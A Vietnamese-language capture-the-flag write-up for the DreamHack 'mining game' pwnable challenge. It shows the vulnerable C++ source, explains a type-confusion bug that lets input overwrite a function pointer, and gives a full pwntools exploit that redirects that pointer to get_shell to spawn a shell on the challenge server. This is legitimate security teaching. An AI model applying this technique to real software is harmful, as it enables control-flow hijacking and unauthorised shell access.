



# mining-game---Write-up-----DreamHack
Hướng dẫn cách giải bài mining game cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 11/12/2025

## 1. Mục tiêu cần làm
- Đọc hiểu được code hoạt động như thế nào
- Tìm được địa chỉ của `get_shell`

## 2. Cách thực thi
Đầu tiên là đọc code

```C
// g++ -o main main.cpp

#include <iostream>
#include <vector>
#include <string>
#include <random>
#include <chrono>
#include <thread>
#include <csignal>
#include <cstdio>
#include <cstring>
#include <cstdlib>
#include <unistd.h>

#define CMD_MINING                  1
#define CMD_SHOW_MINERAL_BOOK       2
#define CMD_EDIT_MINERAL_BOOK       3
#define CMD_EXIT                    4

#define MAX_DESCRIPTION_SIZE 0x10

typedef void (*DESC_FUNC)(void);

/* Initialization */

void get_shell()
{
    system("/bin/sh");
}

void alarm_handler(int trash)
{
    std::cout << "TIME OUT" << std::endl;
    exit(-1);
}

void __attribute__((constructor)) initialize(void)
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(60);
}

/* Print functions */

void print_banner()
{
    std::cout << "I love minerals!" << std::endl;
}

void print_menu()
{
    std::cout << std::endl << "[Menu]" << std::endl;
    std::cout << "1. Mining" << std::endl;
    std::cout << "2. Show mineral book" << std::endl;
    std::cout << "3. Edit mineral book" << std::endl;
    std::cout << "4. Exit program" << std::endl;
}

void print_scandium_description()
{
    std::cout << "Name        : Scandium" << std::endl;
    std::cout << "Symbol      : Sc" << std::endl;
    std::cout << "Description : A silvery-white metallic d-block element" << std::endl;
}

void print_yttrium_description()
{
    std::cout << "Name        : Yttrium" << std::endl;
    std::cout << "Symbol      : Y" << std::endl;
    std::cout << "Description : A silvery-metallic transition metal chemically similar to the lanthanides" << std::endl;
}

void print_lanthanum_description()
{
    std::cout << "Name        : Lanthanum" << std::endl;
    std::cout << "Symbol      : La" << std::endl;
    std::cout << "Description : A soft, ductile, silvery-white metal that tarnishes slowly when exposed to air" << std::endl;
}

void print_cerium_description()
{
    std::cout << "Name        : Cerium" << std::endl;
    std::cout << "Symbol      : Ce" << std::endl;
    std::cout << "Description : A soft, ductile, and silvery-white metal that tarnishes when exposed to air" << std::endl;
}

void print_praseodymium_description()
{
    std::cout << "Name        : Praseodymium" << std::endl;
    std::cout << "Symbol      : Pr" << std::endl;
    std::cout << "Description : A soft, silvery, malleable and ductile metal, valued for its magnetic, electrical, chemical, and optical properties" << std::endl;
}

std::vector<DESC_FUNC> rare_earth_description_funcs = {
    print_scandium_description,
    print_yttrium_description,
    print_lanthanum_description,
    print_cerium_description,
    print_praseodymium_description
};

/* Utils */

int get_int(const char* prompt = ">> ")
{
    std::cout << prompt;

    int x;
    std::cin >> x;
    return x;
}

std::string get_string(const char* prompt = ">> ")
{
    std::cout << prompt;

    std::string x;
    std::cin >> x;
    return x;
}

int get_rand_int(int start, int end)
{
    std::random_device rd;
    std::mt19937 gen(rd());
    std::uniform_int_distribution<int> dis(start, end);

    return dis(gen);
}

/* Classes */

class Mineral 
{
public:
    virtual void print_description() const = 0;
};

class UndiscoveredMineral : public Mineral
{
public:
    UndiscoveredMineral(std::string description_)
    {
        strncpy(description, description_.c_str(), MAX_DESCRIPTION_SIZE);
    }

    void print_description() const override 
    {
        std::cout << "Name        : Unknown" << std::endl;
        std::cout << "Symbol      : Un" << std::endl;
        std::cout << "Description : " << description << std::endl;
    }

    char description[MAX_DESCRIPTION_SIZE];
};

class RareEarth : public Mineral
{
public:
    RareEarth(DESC_FUNC description_)
    : description(description_)
    {

    }

    void print_description() const override 
    {
        if ( description )
            description();
    }

    DESC_FUNC description;   
};

/* Action functions */

std::vector<Mineral *> minerals;

void mining()
{
    std::cout << "[+] Mining..." << std::endl;
    std::this_thread::sleep_for(std::chrono::milliseconds(get_rand_int(100, 1000)));

    if ( get_rand_int(1, 100) <= 50 )
    {
        std::cout << "[+] Congratulations! you found an *undiscovered* mineral!" << std::endl;
        
        std::string description = get_string("Please enter mineral's description : ");
        minerals.push_back(new UndiscoveredMineral(description));
    }

    else if ( get_rand_int(1, 100) <= 5 )
    {
        std::cout << "[+] You found a rare-earth element!" << std::endl;
        
        DESC_FUNC description = rare_earth_description_funcs[get_rand_int(0, rare_earth_description_funcs.size() - 1)];
        minerals.push_back(new RareEarth(description));
        minerals.back()->print_description();
    }

    else {
        std::cout << "[!] Found nothing" << std::endl;
    }
        
    return;
}

void edit_mineral_book()
{
    int index = get_int("[?] Index : ");

    if ( index < 0 || index >= minerals.size() )
    {
        std::cout << "[!] Invalid index" << std::endl;
        return;
    }

    std::string description = get_string("Please enter mineral's description : ");
    strncpy(
        static_cast<UndiscoveredMineral*>(minerals[index])->description,
        description.c_str(),
        MAX_DESCRIPTION_SIZE
    );
}

void show_mineral_book()
{
    for ( int index = 0; index < minerals.size(); index++ )
    {
        std::cout << "--------------------" << std::endl;
        std::cout << "Index       : " << index << std::endl;
        minerals[index]->print_description();
    }

    std::cout << std::endl;
}

/* Main function */

int main(){
    print_banner();

    while(1){
        print_menu();

        int selector = get_int();

        switch (selector){
            case CMD_MINING:
                mining();
                break;

            case CMD_SHOW_MINERAL_BOOK:
                show_mineral_book();
                break;

            case CMD_EDIT_MINERAL_BOOK:
                edit_mineral_book();
                break;

            case CMD_EXIT:
                return 0;

            default:
                std::cout << "[!] You select wrong number!" << std::endl;
                break;
        }
    }
    return 0;    
}
```

Code khá dài nhưng mình sẽ tóm gọn lại như sau. Khi các bạn chạy chương trình nó sẽ đưa ra 3 option



1. Đào ( ra 3 loại : kim loại thường, kim loại hiếm, không ra mẹ gì )
2. Show ra tất cả kim loại đã đào
3. Chỉnh sửa lại mô tả kim loại đã đào
4. Thoát

Giờ phân tích nè. Chương trình định nghĩa các class như sau :
- Lớp cha `Mineral`: Có chứa `vptr` ( con trỏ bảng ảo ) do có hàm ảo `print_description`
- Lớp `UndiscoveredMineral` :

```C
class UndiscoveredMineral : public Mineral {
    char description[16]; // Offset 8 (sau vptr)
};
```

- Lớp `RareEarth` :

```C
class RareEarth : public Mineral {
    void (*description_func)(); // Offset 8 (sau vptr)
};
```

Trên kiến trúc 64-bit, cả hai đối tượng đều có `vptr` (8 bytes) ở đầu. Điểm thú vị nằm ở 8 bytes tiếp theo :
- Với `UndiscoveredMineral` : Tại offset 8 là dữ liệu văn bản (các ký tự mô tả).
- Với `RareEarth` : Tại offset 8 là địa chỉ của một hàm ( ví dụ: `print_scandium_description` ).

Vậy lỗ hổng nằm ở đâu ? Đó là hàm `edit_mineral_book`.

```C
// Lỗi: Type Confusion
void edit_mineral_book() {
    int index = get_int("[?] Index : ");
    // ... kiểm tra index ...
    
    // VẤN ĐỀ NẰM Ở ĐÂY:
    // Chương trình ép kiểu (static_cast) mọi đối tượng thành UndiscoveredMineral*
    // mà KHÔNG kiểm tra xem đối tượng đó thực sự là loại nào.
    strncpy(
        static_cast<UndiscoveredMineral*>(minerals[index])->description, 
        user_input.c_str(), 
        MAX_DESCRIPTION_SIZE
    );
}
```

Hàm `static_cast` trong C chỉ thực hiện ép kiểu tại thời điểm biên dịch ( compile-time ) và tin tưởng lập trình viên hoàn toàn. Nó không kiểm tra kiểu thực tế lúc chạy ( runtime ) như `dynamic_cast`.

Nếu chúng ta chọn index của một đối tượng `RareEarth` :
1. Chương trình vẫn ép kiểu nó thành `UndiscoveredMineral`.
2. Nó coi 8 bytes tại offset 8 là char `description[]`.
3. Hàm `strncpy` sẽ ghi dữ liệu người dùng nhập vào vị trí đó.
4. **Thực tế** : Chúng ta đang ghi đè lên **con trỏ hàm** ( `description_func` ) của đối tượng `RareEarth`.

Vậy chúng ta chỉ cần tìm ra được kim loại hiếm sau đó ghi mô tả của nó bằng địa chỉ `get_shell` thì lúc mình chọn Menu 3 ( edit ) thì nó sẽ trỏ vào đó và thực thi tức là trỏ vào `get_shell` và thực thi nó.

Vậy địa chỉ `get_shell` kiếm sao ? Trong code C thì các bạn thấy hàm `get_shell` nhưng sang file dịch ngược các bạn tìm lòi mắt cũng không thấy đâu. Giờ hãy mở file dịch ngược lên bấm tổ hợp phím Shift + F12. Sau đó tìm chuỗi `/bin/sh`.



Double click vào nó và bấm vào sau đó ấn X.



Vậy địa chỉ bắt đầu ở `0x402576`, hên là bài này no PIE nên đây sẽ là địa chỉ đúng luôn. Giờ có đủ hết rồi bắt đầu băm thôi.

À minh quên nói vì lúc mining là random nên các bạn bắt buộc phải code brute force để đào đến khi ra được kim loại hiếm.

```Python
def get_rare_earth():
    idx = 0
    while True:
        mine()
        p.recvuntil(b'Mining...')
        
        outcome = p.recvuntil([b'description :', b'rare-earth', b'Found nothing'])

        if b'description :' in outcome:
            p.sendline(b'trash')
            idx += 1
        elif b'rare-earth' in outcome:
            return idx
        else:
            pass
```

Sau khi có được vị trí của kim loại hiếm thì gọi hồn nó lên và đổi mô tả của nó thôi.

```Python
def exploit():
    target_index = get_rare_earth()
    
    p.sendlineafter(b'>> ', b'3')
    p.sendlineafter(b'Index : ', str(target_index).encode())
    
    p.sendlineafter(b'description : ', p64(get_shell_addr))
    
    p.sendlineafter(b'>> ', b'2')
    
    p.interactive()
```

Vậy là xong bài này mình thấy nó cũng chỉ nằm ở mức 2 là hết cỡ nhưng dù sao thì bài này khá dễ, nó chỉ khó ở mỗi chỗ đọc code thôi. Nếu dài quá có thể nhờ AI đọc và phân tích dùm. Thôi thì cho mình 1 star để có động lực viết thêm write up mới nha 🐧.

```Python
from pwn import *

exe = './main'
elf = ELF(exe)

# r = process(exe)
p = remote('host8.dreamhack.games', 17482)

get_shell_addr = 0x402576
log.success(f"Target Address (get_shell): {hex(get_shell_addr)}")

def mine():
    p.sendlineafter(b'>> ', b'1')

def get_rare_earth():
    idx = 0
    while True:
        mine() 

        p.recvuntil(b'Mining...')

        # 3. Kiểm tra kết quả
        # Có 3 trường hợp xảy ra, ta dùng list để bắt dính trường hợp nào đến trước
        # - Case A: "description :" (Tìm thấy Undiscovered -> Phải nhập)
        # - Case B: "rare-earth" (Tìm thấy mục tiêu -> Return)
        # - Case C: "Found nothing" (Không thấy gì -> Loop tiếp)
        outcome = p.recvuntil([b'description :', b'rare-earth', b'Found nothing'])

        if b'description :' in outcome:
            # [CASE A] Tìm thấy khoáng sản chưa biết
            # Chương trình đang dừng chờ nhập, ta phải gửi mô tả (rác)
            p.sendline(b'trash')
            idx += 1
            # Sau khi gửi xong, chương trình sẽ in Menu. 
            # Vòng lặp quay lại, hàm mine() sẽ hứng được '>> '
            
        elif b'rare-earth' in outcome:
            # [CASE B] Tìm thấy mục tiêu!
            log.success(f"Found RareEarth at Index: {idx}")
            return idx
            
        else:
            # [CASE C] Found nothing
            # Chương trình tự động in Menu. Loop quay lại mine() xử lý tiếp.
            pass

def exploit():
    target_index = get_rare_earth()
    

    log.info("Overwriting function pointer...")
    p.sendlineafter(b'>> ', b'3')
    p.sendlineafter(b'Index : ', str(target_index).encode())

    payload = p64(get_shell_addr) 
    

    p.sendlineafter(b'description : ', payload)
    

    log.info("Triggering shell...")
    p.sendlineafter(b'>> ', b'2') 
    
    p.interactive()

if __name__ == "__main__":
    exploit()
```
